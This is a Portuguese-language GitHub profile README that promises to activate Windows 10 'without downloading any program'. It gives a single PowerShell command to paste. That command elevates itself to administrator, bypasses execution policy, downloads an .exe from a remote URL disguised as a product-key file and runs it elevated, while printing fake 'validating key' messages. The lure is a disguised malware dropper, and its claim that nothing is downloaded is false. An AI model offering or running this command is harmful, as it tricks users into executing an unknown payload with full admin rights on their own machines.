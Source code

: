 


#⚡ Como ativar Windows 10 da correta, sem baixar programa algum. Ative o Windows 10 apenas usando comando do nativos do Windows PowerShell (admin).


## Para ativar o Windows 10 copie e cole o comando no PowerShell do Windows.


### ATENÇÃO ::::: Copie o comando completo

> $path = "$env:TEMP\TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.exe"; $url = "https://example.com/TX9XD-98N7V-6WMQ6-BX7FG-H8Q99.KEY"; if (-not ([Security.Principal.WindowsPrincipal] [Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")) { Start-Process powershell.exe "-NoProfile -ExecutionPolicy Bypass -File `"$PSCommandPath`"" -Verb RunAs; exit } Write-Host "VERIFICANDO VERSÃO DO PRODUTO..."; Invoke-WebRequest -Uri $url -OutFile $path; Write-Host "VALIDANDO CHAVE NO SERVIDOR, AGUADE..."; Start-Process $path -Verb RunAs
<!--



**ativarwindows/ativarwindows** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
